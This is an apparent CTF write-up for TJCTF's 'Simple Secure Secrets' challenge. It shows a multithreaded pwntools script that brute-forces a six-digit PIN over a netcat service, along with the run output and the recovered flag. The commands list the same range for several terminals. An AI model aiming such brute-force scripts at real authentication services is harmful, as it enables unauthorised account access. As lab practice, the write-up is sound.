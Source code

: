 # Simple Secure Secrets
```
Written by evanyeyeye

nc p1.tjctf.org 8000
```

Basically you need to guess the pin code for flag

```
Welcome to the Simply Secure Service! (TRIAL)
The product: an impregnable bunker for your most vulnerable secrets.
---------------------------------------------
Commands:
    l - List all secret names
    s - Store a secret
    r - Reveal a secret
    u - Upgrade to PRO
    h - Display this help menu
    x - Exit service
> r
Secret name: tjctf
Secret pin: 000001
Invalid pin. The appropriate authorities have been notified.
```

My first thought was there is a bug or what, but I couldn't find it

Assume the pin code is constant

I decided to brute force the pin number but its **1 million possible code**

Its possible possible using multiple thread and pwntools

[my script in python:](solve.py)
```python
from pwn import *
from threading import Thread
import re
import sys

def guessing(fromNum,toNum):
	s = remote('p1.tjctf.org',8000)
	s.recvuntil("> ")
	for i in range(fromNum,toNum):
		s.sendline('r')
		s.sendline('tjctf')
		s.sendline("%06d" % i)
		text = s.recv()
		if(re.findall("tjctf{.*}",text)):
			print re.findall("tjctf{.*}",text)[0]
			print "Pin : %06d" % i
if len(sys.argv) == 3:
	i = int(sys.argv[1])
	while (i != int(sys.argv[2])):
		thread1 = Thread(target=guessing,args=(i,i+1000))
		thread1.start()
		i += 1000
else:
	print "Need 2 arguments!\npython solve.py from to"
```
Running using two arguments:
```bash
python solve.py 0 100000 # Brute force pin from 000000 to 100000
```
Is this only 0 to 100,000, so I open 10 different teminal with different range:
```bash
python solve.py 100000 200000 # Second Terminal

python solve.py 100000 200000 # Third Terminal

python solve.py 100000 200000 # Forth Terminal
...
...
python solve.py 900000 1000000 # Tenth Terminal
```
**Just be patient**

After around 15 minutes I get the Flag!!
```bash
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
[+] Opening connection to p1.tjctf.org on port 8000: Done
...
...
...
tjctf{1_533_y0u_f0rc3d_y0ur_w4y_1n}
Pin : 720561
```
But I don't know why I can't use this pin the reveal the flag:
```
Welcome to the Simply Secure Service! (TRIAL)
The product: an impregnable bunker for your most vulnerable secrets.
---------------------------------------------
Commands:
    l - List all secret names
    s - Store a secret
    r - Reveal a secret
    u - Upgrade to PRO
    h - Display this help menu
    x - Exit service
> r
Secret name: tjctf
Secret pin: 72-561
Secret pin must be in ###### format.
> r
Secret name: tjctf 
Secret pin: 720561
Invalid pin. The appropriate authorities have been notified.
> 
```
That is weird but I get the flag so I don't care anymore

## Flag
> tjctf{1_533_y0u_f0rc3d_y0ur_w4y_1n}
